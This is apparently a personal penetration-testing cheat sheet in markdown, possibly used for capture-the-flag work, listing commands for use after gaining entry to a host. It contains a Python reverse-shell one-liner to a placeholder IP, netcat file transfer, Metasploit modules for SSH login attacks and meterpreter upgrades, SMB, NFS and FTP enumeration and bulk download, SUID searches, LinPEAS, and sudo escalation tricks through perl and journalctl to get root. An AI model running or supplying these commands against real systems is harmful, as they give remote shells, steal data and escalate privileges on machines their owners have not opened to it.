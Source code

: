 ## Attempt to Elevate permissions after entry


### Python based reverse shell

```
python3 -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



### Download file to remote host

Host:
```
nc -l PORT < /path/to/file
```

Client:
```
nc IP PORT > file
```

### Open SSH through Metasploit

```
use auxiliary/scanner/ssh/ssh_login
```

### Upgrade shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
```

##### Gather random exploits possibilities.

```
use post/multi/recon/local_exploit_suggester
```
Gives readout of possible vulnerabilities of connected host


### NFS (RPCBIND?)

Enumerate NFS shares.

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98
```



### Linux Specific

```sudo -l```

```whoami```

##### Run command as specific user
```
sudo -u USER command
```

##### Start shell as specific user
```
sudo -u USER bash -i
```

#### Search specific word

```grep -n "WORD" /path/to/file(s)```
-n lists line number
-r - recursively check all files matching path
-B # - Prints this many lines before
-A # - Prints this many lines after

#### LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

#### Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


### FTP

Replicate entire FTP
```
wget -m ftp://anonymous:anonymous@IP
```


### Samba share

##### Quick Enumeration

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
```

Change port to match nmap results. (Usually 139 or 445)

##### Deep Enumeration

```
enum4linux -a IP | tee enum4linux.log
```


#### Inspect Samba Share

```
smbclient //ip/sambashare
```


#### Recursively download the SMB share

```
smbget -R smb://ip/sambashare
```

### PERL elevation

```
sudo /usr/bin/perl -e 'exec "/bin/sh"'
```

### JournalCTL Less exploitation

```
/usr/bin/sudo /usr/bin/journalctl -n5 - service.service

```
creates `less` to create 

Follow up with
```
!/bin/bash
``` 
to get root
